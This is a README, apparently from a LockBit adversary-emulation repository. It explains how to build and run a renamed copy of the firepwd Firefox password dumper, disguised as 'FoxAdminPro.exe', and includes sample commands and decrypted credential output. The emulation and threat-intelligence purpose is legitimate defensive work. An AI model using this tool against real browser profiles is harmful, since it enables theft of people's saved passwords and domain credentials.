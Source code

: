 # Firefox Password Dumper

The original Firefox Password Dumper can be found at: <https://github.com/lclevy/firepwd>

- Adopted at [commit 167eabf3b88d5a7ba8b8bc427283f827b6885982](https://github.com/lclevy/firepwd/tree/167eabf3b88d5a7ba8b8bc427283f827b6885982)
- The original license can be found [here](https://github.com/lclevy/firepwd/blob/master/LICENSE)
- The original README can be found [here](https://github.com/lclevy/firepwd/blob/master/readme.md)

Modifications:

- Usage and build instructions adapted to build via PyInstaller

## Usage

Command line arguments and usage of the compiled FoxAdminPro.exe is the same as its Python counterpart.

```cmd
FoxAdminPro.exe -h
```

```cmd
Usage: FoxAdminPro.exe [options]

Options:
  -h, --help            show this help message and exit
  -v VERBOSE, --verbose=VERBOSE
                        verbose level
  -p MASTERPASSWORD, --password=MASTERPASSWORD
                        masterPassword
  -d DIRECTORY, --dir=DIRECTORY
                        directory
```

In the LockBit scenario, FoxAdminPro.exe is ingressed and executed by the operator using chocolatey. The following is an example of the executed command line arguments to dump passwords from the FireFox browser in order to recover the domain admin's password:

```cmd
FoxAdminPro.exe -d C:\\Users\\[user]\\AppData\\Roaming\\Mozilla\\Firefox\\Profiles\\[profile_name]\
```

```cmd
globalSalt: b'012ede3c660dbe7c18cdffde85cfd6b9cfce2f08'
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
     SEQUENCE {
       SEQUENCE {
         OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
         SEQUENCE {
           OCTETSTRING b'4e15aeb9df4186f90145e57b19e8d0f661c7d11b122b24f5d905c5287b13b53f'
           INTEGER b'01'
           INTEGER b'20'
           SEQUENCE {
             OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
           }
         }
       }
       SEQUENCE {
         OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC
         OCTETSTRING b'3ab891069ca2dcb8df719c2c9750'
       }
     }
   }
   OCTETSTRING b'1074f74e6878d0b786afc6d764511610'
 }
clearText b'70617373776f72642d636865636b0202'
password check? True
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
     SEQUENCE {
       SEQUENCE {
         OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
         SEQUENCE {
           OCTETSTRING b'253296683b6fa36636801def51db1ceb4972fdcbd098dec0a6ea952f1a2e0ab5'
           INTEGER b'01'
           INTEGER b'20'
           SEQUENCE {
             OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
           }
         }
       }
       SEQUENCE {
         OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC
         OCTETSTRING b'5be806558847f66bbe9901aa45ea'
       }
     }
   }
   OCTETSTRING b'b10a6284ceba83bfde1ef3ec9739c4847ac0a124bc6435bcbc415ea36deefd4c'
 }
clearText b'620ef226a89dc4baeacde6e0fea161cd9b3819c87c3252d90808080808080808'
decrypting login/password pairs
http://www.fakewebsite.com:b'test',b'passw0rd!'
```

The dumped passwords will be printed at the end of the output under the line `decrypting login/password pairs`.

## Build Instructions

### Build Environment Setup

The following steps will walk through the setup of the build environment.

1. Open a Command Prompt with administrative privileges to install python (minimum Python 3.12)

    ```cmd
    choco install python
    ```

1. From LockBit/Resources/firepwd, create a Python virtual environment

    ```cmd
    python -m venv firepwd-venv
    ```

1. Activate the virtual environment

    ```cmd
    firepwd-venv\Scripts\activate.bat
    ```

1. Install pip (minimum Pip 23.2.1) then use pip to install pyinstaller and the firepwd dependencies

    ```cmd
    python -m pip install -U pip
    pip install pyinstaller
    pip install -r requirements.txt
    ```

### PyInstaller Build Command

1. Build FoxAdminPro.exe using pyinstaller. This will create a `build` and a `dist` directory in the current working directory.

    ```cmd
    pyinstaller firepwd.py --onefile --path firepwd --name FoxAdminPro
    ```

1. Test execution of secretsdump.exe

    ```cmd
    cd dist
    FoxAdminPro.exe -h
    ```

## CTI Reporting

[CISA](https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-075a)
[Antiy Labs](https://www.antiy.net/p/analysis-of-lockbit-ransomware-samples-and-considerations-for-defense-against-targeted-ransomware/)
